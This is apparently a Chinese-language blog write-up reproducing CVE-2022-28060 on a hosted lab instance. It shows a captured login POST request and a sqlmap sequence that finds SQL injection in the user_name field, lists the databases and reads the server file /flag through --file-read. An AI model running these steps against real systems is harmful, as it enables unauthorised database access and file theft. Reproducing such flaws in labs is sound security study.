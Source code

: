 ```yaml
---
title: CVE-2022-28060
subtitle:
date: 2025-03-14T12:25:22+08:00
slug: 5287c03
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

![](images/fbdef1d41c2d0796f14b0ac7d0745f34.png)
登录界面抓包
![](images/dd38d280c99453e514df2800c0519d66.png)
保存到sqlmap.txt文件

```
POST /includes/login.php HTTP/1.1
Host: eci-2zegulk0x3fs763elqws.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Origin: http://eci-2zegulk0x3fs763elqws.cloudeci1.ichunqiu.com
Connection: close
Referer: http://eci-2zegulk0x3fs763elqws.cloudeci1.ichunqiu.com/
Cookie: PHPSESSID=mffqfi2m3ekldslts7b7kr0avm
Upgrade-Insecure-Requests: 1
Priority: u=0, i

user_name=admin&user_password=123&login=
```

尝试探测，找到哪个字段存在注入点

```
sqlmap -r sqlmap.txt --batch
```

![](images/c37592f81ddd5d3bd105961850e2ae28.png)
找到注入点为user_name，暴力破解数据库

```
sqlmap -r sqlmap.txt --batch --dbs
```

![](images/5cce3304081278a26f487af6608d0706.png)
在mysql数据库中查找flag

```
sqlmap -r sqlmap.txt --batch -D "mysql" --file-read "/flag"
```

![](images/914419ee8f9c209a35145f1f5c4883e4.png)
读取flag

```
cat /root/.local/share/sqlmap/output/eci-2zegulk0x3fs763elqws.cloudeci1.ichunqiu.com/files/_flag
```

![](images/8a567af596126f178d3c4e955f921287.png)
